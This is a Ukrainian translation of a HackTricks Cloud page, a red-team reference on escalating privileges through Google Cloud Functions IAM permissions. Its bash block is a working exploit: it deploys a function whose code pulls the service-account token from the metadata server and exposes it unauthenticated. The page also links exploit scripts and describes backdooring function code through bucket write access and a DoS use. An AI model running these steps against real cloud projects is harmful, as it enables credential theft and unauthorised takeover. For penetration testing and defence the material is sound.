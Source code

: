 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Більше інформації про Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Зловмисник з цими привілеями може **створити нову Cloud Function з довільним (шкідливим) кодом і призначити їй обліковий запис служби**. Потім, витягнути токен облікового запису служби з метаданих, щоб підвищити привілеї до нього.\
Можливо, знадобляться деякі привілеї для активації функції.

Скрипти експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) і [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), а попередньо зібраний .zip файл можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Зловмисник з цими привілеями може **модифікувати код функції і навіть змінювати обліковий запис служби, що прикріплений** з метою ексфільтрації токена.

{% hint style="danger" %}
Щоб розгорнути cloud functions, вам також знадобляться дозволи actAs над обліковим записом служби за замовчуванням для обчислень або над обліковим записом служби, який використовується для створення образу.
{% endhint %}

Деякі додаткові привілеї, такі як дозвіл `.call` для версії 1 cloudfunctions або роль `role/run.invoker` для активації функції можуть бути необхідні.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Якщо ви отримали помилку `Permission 'run.services.setIamPolicy' denied on resource...`, це означає, що ви використовуєте параметр `--allow-unauthenticated` і у вас недостатньо прав для цього.
{% endhint %}

Скрипт експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

З цією дозволом ви можете отримати **підписане URL для завантаження файлу в кошик функції (але код функції не буде змінено, вам все ще потрібно його оновити)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Не зовсім впевнений, наскільки корисним є лише цей дозвіл з точки зору атакуючого, але добре знати.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

Надайте собі будь-які з попередніх **`.update`** або **`.create`** привілеїв для ескалації.

### `cloudfunctions.functions.update`

Маючи лише **`cloudfunctions`** дозволи, без **`iam.serviceAccounts.actAs`** ви **не зможете оновити функцію, ТОМУ ЦЕ НЕ Є ДІЙСНИМ ПРИВІЛЕЄМ.**

### Доступ на читання та запис до бакету

Якщо у вас є доступ на читання та запис до бакету, ви можете моніторити зміни в коді, і коли **відбувається оновлення в бакеті, ви можете оновити новий код своїм кодом**, з яким нова версія Cloud Function буде запущена з поданим бекдором.

Ви можете дізнатися більше про атаку в:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Однак ви не можете використовувати це для попереднього компрометації сторонніх Cloud Functions, тому що якщо ви створите бакет у своєму обліковому записі та надасте йому публічні дозволи, щоб зовнішній проект міг записувати в нього, ви отримаєте наступну помилку:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Однак це може бути використано для DoS-атак.
{% endhint %}

### Доступ на читання та запис до Artifact Registry

Коли створюється Cloud Function, новий образ docker завантажується до Artifact Registry проекту. Я намагався змінити образ на новий, і навіть видалити поточний образ (та образ `cache`), і нічого не змінилося, cloud function продовжує працювати. Тому, можливо, **можливо зловживати атакою Race Condition** як з бакетом, щоб змінити контейнер docker, який буде запущено, але **просто зміна збереженого образу не можлива для компрометації Cloud Function**.

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
